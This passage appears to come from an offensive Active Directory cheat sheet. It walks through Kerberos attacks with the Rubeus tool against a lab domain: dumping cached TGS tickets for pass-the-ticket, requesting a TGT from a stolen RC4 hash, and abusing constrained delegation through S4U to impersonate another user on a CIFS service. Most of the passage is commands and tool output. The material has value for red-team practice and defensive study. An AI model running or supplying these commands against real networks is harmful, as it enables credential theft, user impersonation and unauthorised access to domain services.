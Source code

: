 ```powershell
PS C:\Users\m0chan> .\Rubeus.exe dump
```



This will dump any relevant cached `TGS` ticket's stored on the box which we can then perform a `PTT` ticket attack similar to the `Pass-The-Ticket` section above.



Relatively simple :)

 

**Example 2 - Plaintext Password too Service Access**

Shoutout to @harmj0y & @gentilkiwi for this example. Really cool imo. 

Basically this attack works around the basis that you have compromised a plaintext password of a user account that is trusted for **Constrained Delegation** and/or a RC4 Hash/AES Key. Basically you can use the pass the users password/NTLM hash, request a `TGT` & execute a request for a `TGS` ticket and of course access the respective `SPN` / `Service`



**Request a TGT**

*https://github.com/GhostPack/Rubeus#asktgt*

```powershell
PS C:\Users\m0chan> .\Rubeus.exe asktgt /user:m0chan /domain:m0chanAD.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
 
  v1.0.4
 
[*] Action: Ask TGT
 
[*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
[*] Using domain controller: DC.m0chanAD.local (172.16.0.254)
[*] Building AS-REQ (w/ preauth) for: 'm0chanAD.local\m0chan'
[*] Connecting to 172.16.0.254:88
[*] Sent 230 bytes
[*] Received 1377 bytes
[*] base64(ticket.kirbi):

```



**Issue S4U Request to Delegated SPN with Specified User**

```powershell
PS C:\Users\m0chan> .\Rubeus.exe s4u /ticket:C:\Temp\Tickets\aidanldap.kirbi /impersonateuser:aidan /msdsspn:ldap/dc.m0chanAD.local /altservice:cifs /ptt
 
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
 
  v1.0.0
 
[*] Action: S4U
 
```